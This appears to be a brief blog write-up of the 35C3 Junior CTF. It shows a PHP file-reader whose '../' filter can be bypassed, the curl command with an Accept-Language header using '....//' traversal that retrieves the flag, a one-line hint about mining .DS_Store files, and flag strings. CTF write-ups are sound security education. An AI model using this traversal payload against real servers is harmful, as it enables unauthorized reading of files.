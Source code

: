 ```yaml
---
title: 35c3ctf
date: 2018-12-28 12:41:03
tags:
---
```




# Junoir  ctf

## WEB

### flags

```
<?php
  highlight_file(__FILE__);
  $lang = $_SERVER['HTTP_ACCEPT_LANGUAGE'] ?? 'ot';
  $lang = explode(',', $lang)[0];
  $lang = str_replace('../', '', $lang);
  $c = file_get_contents("flags/$lang");
  if (!$c) $c = file_get_contents("flags/ot");
  echo '<img src="data:image/jpeg;base64,' . base64_encode($c) . '">';
```

 ```
ht@TIANJI:/mnt/d/ht-blog$ curl -H "Accept-Language:....//....//....//....//flag" "http://35.207.132.47:84/" | grep -oE Mz.*= | base64 -d
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2707  100  2707    0     0   5745      0 --:--:-- --:--:-- --:--:--  5759
35c3_this_flag_is_the_be5t_fl4g
 ```

### McDonald

```
在backup目录下找.DS_Store,然后不断的找就行
```



# 35C3

# check 

35C3_use_this_to_decrypt_encrypted_downloads